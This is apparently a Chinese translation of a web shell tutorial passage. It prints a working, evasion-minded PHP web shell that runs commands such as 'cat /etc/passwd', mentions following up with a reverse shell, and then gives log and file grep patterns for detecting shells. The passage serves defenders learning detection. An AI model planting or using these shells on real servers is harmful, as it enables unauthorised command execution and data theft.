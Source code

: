 
输出将类似于以下示例。

![](http://www.acunetix.com/wp-content/uploads/2016/06/image04.png)

**上述示例都可以使用各种工具来解码，即使它们被多次编码。**
在某些情况下，攻击者可能选择使用加密，而不是编码，以便更难以确定Web Shell正在做什么。

下面的例子很简单，但实用。虽然代码没有编码或加密，但它仍然比以前更难检测，因为它不使用任何可疑函数名称（如eval()or assert()），冗长的编码字符串，复杂的代码; 最重要的是，当管理员查看日志（到一定程度）时，它不会阻止任何红旗。

    
    <code><?php
      // Send a POST request with variable '1' = 'system' and variable '2' = 'cat /etc/passwd'
      $_=$_POST['1'];
      $__=$_POST['2'];
    
      //The following will now be equivalent to running -> system('cat /etc/passwd');
      $_($__);
    ?>
    </code>


![](http://www.acunetix.com/wp-content/uploads/2016/06/image00.png)

拿到了webshell之后可以反弹一个反向TCP shell，这样控制服务器，不会对访问或错误日志进行任何跟踪，因为通信是通过TCP（第4层）而不是HTTP（第7层）进行的。


# 检测和预防 - Web Shell简介 - Part 3![](http://i.imgur.com/KCMWqTL.jpg)


最后一部分，我们将介绍Web Shell检测以及如何防止它们。


## 检测


如果管理员怀疑其系统上存在Web Shell（或在日常检查期间），则需要检查以下内容。

首先，必须对web shell使用的常用关键字过滤服务器访问和错误日​​志。这包括文件名和/或参数名称。下面的示例在Apache HTTP Server的访问日志中的URL中查找字符串“file”

    
    <code>root@secureserver:/var/www/html# cat /var/log/apache2/access.log | awk -F\" ' { print $1,$2 } ' | grep "file"
    
    --> 192.168.5.26 - - [30/Apr/2016:08:30:53 +0100] GET /demo/shell.php?file=/etc/passwd
    </code>


必须在文件或文件名中搜索文件系统（通常是Web服务器根目录）中的公共字符串。

    
    <code>root@secureserver:/var/www/html/demo# grep -RPn "(passthru|exec|eval|shell_exec|assert|str_rot13|system|phpinfo|base64_decode|chmod|mkdir|fopen|fclose|readfile) *\("
    
    --> Shell.php:8: eval($string);
    eval.php:1:?php system($_SERVER['HTTP_USER_AGENT']); ?>
    Ad.php:9: eval($string);
    </code>
